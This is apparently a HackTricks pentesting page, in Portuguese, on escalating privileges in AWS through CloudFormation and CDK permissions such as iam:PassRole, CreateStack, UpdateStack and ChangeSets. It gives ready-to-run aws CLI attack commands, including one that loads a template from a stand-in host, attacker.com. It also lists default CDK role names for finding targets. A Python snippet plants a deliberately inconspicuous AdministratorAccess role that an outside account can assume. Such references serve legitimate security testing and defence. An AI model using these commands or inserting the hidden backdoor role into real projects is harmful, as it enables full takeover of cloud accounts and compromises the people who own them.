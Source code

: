 # AWS - Cloudformation Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## cloudformation

Para mais informações sobre cloudformation, consulte:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### `iam:PassRole`, `cloudformation:CreateStack`

Um atacante com essas permissões **pode escalar privilégios** criando uma **pilha do CloudFormation** com um template personalizado, hospedado em seu servidor, para **executar ações sob as permissões de um papel especificado:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Na página a seguir, você tem um **exemplo de exploração** com a permissão adicional **`cloudformation:DescribeStacks`**:

{{#ref}}
iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md
{{#endref}}

**Impacto Potencial:** Privesc para o papel de serviço do cloudformation especificado.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Neste caso, você pode **abusar de uma pilha de cloudformation existente** para atualizá-la e escalar privilégios como no cenário anterior:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
A permissão `cloudformation:SetStackPolicy` pode ser usada para **dar a si mesmo a permissão `UpdateStack`** sobre uma pilha e realizar o ataque.

**Impacto Potencial:** Privesc para o papel de serviço do cloudformation especificado.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Se você tiver essa permissão, mas **sem `iam:PassRole`**, ainda pode **atualizar as pilhas** usadas e abusar dos **Papéis IAM que já estão anexados**. Verifique a seção anterior para um exemplo de exploração (apenas não indique nenhum papel na atualização).

A permissão `cloudformation:SetStackPolicy` pode ser usada para **dar a si mesmo a permissão `UpdateStack`** sobre uma pilha e realizar o ataque.

**Impacto Potencial:** Privesc para o papel de serviço do cloudformation já anexado.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Um atacante com permissões para **passar um papel e criar & executar um ChangeSet** pode **criar/atualizar uma nova pilha do cloudformation e abusar dos papéis de serviço do cloudformation** assim como com o CreateStack ou UpdateStack.

A seguinte exploração é uma **variação do**[ **CreateStack one**](#iam-passrole-cloudformation-createstack) usando as **permissões ChangeSet** para criar uma pilha.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
A permissão `cloudformation:SetStackPolicy` pode ser usada para **dar a si mesmo permissões de `ChangeSet`** sobre uma pilha e realizar o ataque.

**Impacto Potencial:** Privesc para funções de serviço do cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Isso é como o método anterior sem passar **funções IAM**, então você pode apenas **abusar das já anexadas**, apenas modifique o parâmetro:
```
--change-set-type UPDATE
```
**Impacto Potencial:** Privesc para o papel de serviço do cloudformation já anexado.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Um atacante poderia abusar dessas permissões para criar/atualizar StackSets para abusar de papéis de cloudformation arbitrários.

**Impacto Potencial:** Privesc para papéis de serviço do cloudformation.

### `cloudformation:UpdateStackSet`

Um atacante poderia abusar dessa permissão sem a permissão passRole para atualizar StackSets e abusar dos papéis de cloudformation anexados.

**Impacto Potencial:** Privesc para os papéis de cloudformation anexados.

## AWS CDK

O AWS cdk é um kit de ferramentas que permite aos usuários definir sua infraestrutura como código em linguagens com as quais já estão familiarizados, além de reutilizar facilmente seções. O CDK então converte o código de alto nível (ou seja, python) em templates de Cloudformation (yaml ou json).

Para usar o CDK, um usuário administrativo deve primeiro inicializar a conta, o que cria vários papéis IAM, incluindo o *papel exec*, que tem permissões \*/\*. Esses papéis seguem a estrutura de nomenclatura `cdk-<qualifier>-<name>-<account-id>-<region>`. A inicialização deve ser feita uma vez por região por conta.

Por padrão, os usuários do CDK não têm acesso para listar os papéis necessários para usar o CDK, o que significa que você precisará determiná-los manualmente. Se você comprometer a máquina de um desenvolvedor ou algum nó de CI/CD, esses papéis podem ser assumidos para conceder a si mesmo a capacidade de implantar templates CFN, usando o papel `cfn-exec` para permitir que o CFN implante quaisquer recursos, comprometendo totalmente a conta.

### Determinando os nomes dos papéis

Se você tiver `cloudformation:DescribeStacks`, os papéis estão definidos em uma pilha chamada `CDKToolkit`, e você pode extrair os nomes de lá.

Se você estiver em uma máquina que foi usada para construir e implantar projetos CDK, pode extrair os nomes de `cdk.out/manafest.json` no diretório raiz dos projetos.

Você também pode fazer uma boa suposição sobre quais são. `qualifier` é uma string adicionada aos papéis permitindo que várias instâncias da inicialização do CDK sejam implantadas ao mesmo tempo, no entanto, o valor padrão é codificado como `hnb659fds`.
```
# Defaults
cdk-hnb659fds-cfn-exec-role-<account-id>-<region>
cdk-hnb659fds-deploy-role-<account-id>-<region>
cdk-hnb659fds-file-publishing-role-<account-id>-<region>
cdk-hnb659fds-image-publishing-role-<account-id>-<region>
cdk-hnb659fds-lookup-role-<account-id>-<region>
```
### Adicionando código malicioso ao código-fonte do projeto

Se você pode escrever no código-fonte do projeto, mas não pode implantá-lo você mesmo (por exemplo, o desenvolvedor implanta o código via CI/CD, não a máquina local), você ainda pode comprometer o ambiente adicionando recursos maliciosos à pilha. O seguinte adiciona um papel IAM que pode ser assumido por uma conta de atacante a um projeto python CDK.
```python
class CdkTestStack(Stack):
def __init__(self, scope: Construct, construct_id: str, **kwargs) -> None:
super().__init__(scope, construct_id, **kwargs)

# ----------
# Some existing code.....
# ----------

role = iam.Role(
self,
"cdk-backup-role", # Role name, make it something subtle
assumed_by=iam.AccountPrincipal("1234567890"), # Account to allow to assume the role
managed_policies=[
iam.ManagedPolicy.from_aws_managed_policy_name("AdministratorAccess") # Policies to attach, in this case AdministratorAccess
],
)
```
## Referências

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
- [https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml](https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml)

{{#include ../../../../banners/hacktricks-training.md}}
